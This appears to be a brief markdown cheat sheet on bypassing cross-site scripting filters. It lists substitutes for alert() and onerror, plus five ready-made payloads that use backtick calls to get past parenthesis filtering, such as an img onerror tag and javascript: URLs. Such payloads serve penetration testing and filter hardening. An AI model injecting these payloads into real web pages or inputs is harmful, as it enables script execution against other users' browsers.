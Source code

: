 # XSS Filters Bypass.

if You Are a Beginner then First Clear the Basic Concepts .


* ```alert()``` Alternatives
```
   1)Use confirm() Not alert()
   2)Use prompt() Not alert()
   3)Use console.log() Not alert()
   4)use eval() Not alert()
```

* ```onerror``` Event Handler Alternatives
```
   1)Use onload
   2)Use onfocus
   3)Use onmouseover
   4)Use onblur
   5)Use onclick
   6)Use onscroll   
```
* Note:- if () get filtered then Use \`\` Rather then () , Some Examples Are Below.

```
   1)<script>alert`1`</script>
   2)<img src=x onerror=alert`1`>
   3)<img src=x onerror=prompt`1`>
   4)javascript:prompt`1`
   5)javascript:alert`1`
```
